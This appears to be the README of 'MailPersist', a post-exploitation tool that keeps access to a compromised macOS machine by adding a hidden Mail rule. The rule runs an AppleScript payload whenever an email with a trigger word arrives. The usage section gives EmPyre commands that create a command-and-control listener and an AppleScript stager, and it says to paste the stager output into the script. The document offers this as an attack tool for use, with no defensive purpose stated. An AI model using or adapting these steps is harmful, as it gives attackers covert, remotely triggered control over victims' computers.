 # MailPersist - Post-exploitation script for MacOS persistance 

## ABOUT:
This script creates a new rule in the MacOS Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word.

## INSTALL:
```
All dependancies are met on a default installation of MacOS.  With that said, you will likely want to use EmPyre
https://github.com/adaptivethreat/EmPyre
to create your appleScript payload. 
```

## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
